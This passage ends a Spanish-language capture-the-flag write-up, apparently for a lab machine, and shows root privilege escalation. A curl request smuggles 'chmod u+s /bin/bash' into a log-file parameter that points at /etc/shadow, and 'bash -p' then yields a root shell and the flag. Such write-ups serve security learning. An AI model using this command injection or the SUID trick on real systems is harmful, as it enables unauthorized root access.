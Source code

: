 ```bash
amay@sea:~$ curl --basic -u 'amay:mychemicalromance' -d "log_file=/etc/shadow|chmod%20u%2bs%20/bin/bash&analyze_log" http://127.0.0.1:8080/
... [snip]
amay@sea:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Con esto ya podremos tomar la última flag.

```bash
amay@sea:~$ bash -p
bash-5.0# cd /root
bash-5.0# ls -la
total 44
drwx------  7 root root 4096 Dec 21 03:26 .
drwxr-xr-x 19 root root 4096 Feb 21  2024 ..
lrwxrwxrwx  1 root root    9 Aug  1 12:12 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Aug 14 15:25 .cache
drwxr-xr-x  2 root root 4096 Feb 25  2024 monitoring
drwx------  3 root root 4096 Feb 21  2024 .pki
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Dec 21 03:26 root.txt
drwxr-xr-x  2 root root 4096 Aug  1 12:17 scripts
drwx------  2 root root 4096 Feb 21  2024 .ssh
-rw-------  1 root root  797 Aug  5 07:17 .viminfo
bash-5.0# cat root.txt
3549c1debd57b6d430c38f8e07******
```

## Extra

Debido al vector de la escalada de privilegios, técnicamente puedes saltarte el comprometer a amay simplemente descubriendo el servidor web antes que lo demás.

Sobre el foothold, no sé porqué razón el script no me funcionó con simplemente alterar la url desde la que se descargaba el tema del CMS. Cuando completé la máquina por primera vez me funcionó prácticamente sin tener que editarle la lógica.
